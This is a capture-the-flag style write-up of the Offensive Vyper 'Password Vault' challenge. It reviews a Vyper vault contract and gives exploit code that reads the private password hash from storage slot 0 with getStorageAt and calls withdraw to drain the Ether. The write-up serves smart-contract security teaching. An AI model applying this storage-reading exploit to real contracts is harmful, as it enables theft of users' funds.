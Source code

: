 ## 0) Intro

This article is the first write-up of the Offensive Vyper challenges created by [@jtriley_eth](https://twitter.com/jtriley_eth).

You can find instructions on how to get started [here](https://github.com/JoshuaTrujillo15/offensive_vyper).


## 1) Challenge

> <cite>The Password Vault is a vault that holds Ether and is password protected. Your Objective is to steal all of the Ether in the Vault. While the password is stored in this repository, the objective is to do it without reading the password from `test/secrets/dont-peek.js`.</cite>


## 2) Code Review

`PasswordVault.vy` contract ([source code](https://github.com/JoshuaTrujillo15/offensive_vyper/blob/2c02cb408e95030215ff5d2aef087213f64edd17/contracts/password-vault/PasswordVault.vy)):

```python

# @version ^0.3.2

"""
@title Password Protected Vault
@author jtriley.eth
"""

password_hash: bytes32

owner: address

@external
def __init__(password_hash: bytes32):
    self.password_hash = password_hash

    self.owner = msg.sender


@external
def set_new_password(old_password_hash: bytes32, new_password_hash: bytes32):
    """
    @notice Sets a new password hash. Passwords are hashed offchain for security.
    @param old_password_hash Last password hash for authentication.
    @param new_password_hash New password hash to set.
    @dev Throws when password is invalid and the caller is not the owner.
    """

    assert self.password_hash == old_password_hash or msg.sender == self.owner, "unauthorized"
    
    self.password_hash = new_password_hash


@external
def withdraw(password_hash: bytes32):
    """
    @notice Withdraws funds from vault.
    @param password_hash Password hash for authentication.
    @dev Throws when password hash is invalid and the caller is not the owner.
    """

    assert self.password_hash == password_hash or msg.sender == self.owner, "unauthorized"

    send(msg.sender, self.balance)


@external
@payable
def __default__():
    pass

```

Contract main functions:

- `set_new_password` is used to set a new password. It accepts the old password and the new password to set. It checks if the `old_password_hash` parameter equals the initial password (set during contract creation) and if the `msg.sender` equals the owner. If one of these two conditions is false, the function fails. So, the owner can change the password even without knowing the old one, and anyone who knows the current password can change it with a new one. 

- `withdraw` allows to withdraw the contract balance and sends it to the `msg.sender`. To withdraw the entire amount is required to provide the password hash. There are two checks in place: one checks if the password provided is equal to the `password_hash`, and the other if the `msg.sender` is the contract owner. 


>The `@dev` comment of both functions says: 
><cite>Throws when password is invalid **and** the caller is not the owner.</cite>
>These conditions are evaluated in a logical disjunction (**OR**), so only one of the two needs to be true to execute the functions. 

Therefore, since we are interested in stealing all the ETH, if we find a way to discover the value of the  `password_hash`, we can withdraw the entire amount and solve the challenge (the condition `self.password_hash == password_hash` will be true).


#### Where is `password_hash` value stored?

`password_hash` is a contract variable and is initialized during the contract creation (line `14`). This variable is not public, so it's not accessible from the external. However, reading the [documentation](https://vyper.readthedocs.io/en/stable/scoping-and-declarations.html#storage-layout): 
> Storage variables are located within a smart contract at specific storage slots. By default, the compiler allocates the first variable to be stored at slot 0; subsequent variables are stored in order after that.

The `password_hash` is the first contract variable (line `8`), so it's stored in the slot `0`.

#### How can we read contract storage variables?

Using the `getStorageAt` from the `ethers` library we can access the contract storage.


## 3) Solution

The solution consists of two steps:
- retrieve the password hash from the contract storage
- call the withdraw function providing this password

`password-vault.challenge.js`:
```javascript

    it('Exploit', async function () {
        // YOUR EXPLOIT HERE

        let password = await attacker.provider.getStorageAt(this.vault.address, 0)
        
        let exploit = await (await ethers.getContractFactory('PasswordVaultExploit', deployer)).deploy(this.vault.address)
        
        await exploit.connect(attacker).run(password)
        
    })

```


`PasswordVaultExploit.vy`:
```python

# YOUR EXPLOIT HERE
@external
def run(password_hash: bytes32):
    Passwordvault(self.target).withdraw(password_hash)

@external
@payable
def __default__():
    pass

```

You can find the complete code [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/test/password-vault.challenge.js) and [here](https://github.com/dellalibera/offensive_vyper-solutions/blob/main/contracts/exploits/PasswordVaultExploit.vy).


## 4) References

- [storage-layout](https://vyper.readthedocs.io/en/stable/scoping-and-declarations.html#storage-layout)
- [ethers - Provider.getStorageAt](https://docs.ethers.io/v5/api/providers/provider/#Provider-getStorageAt)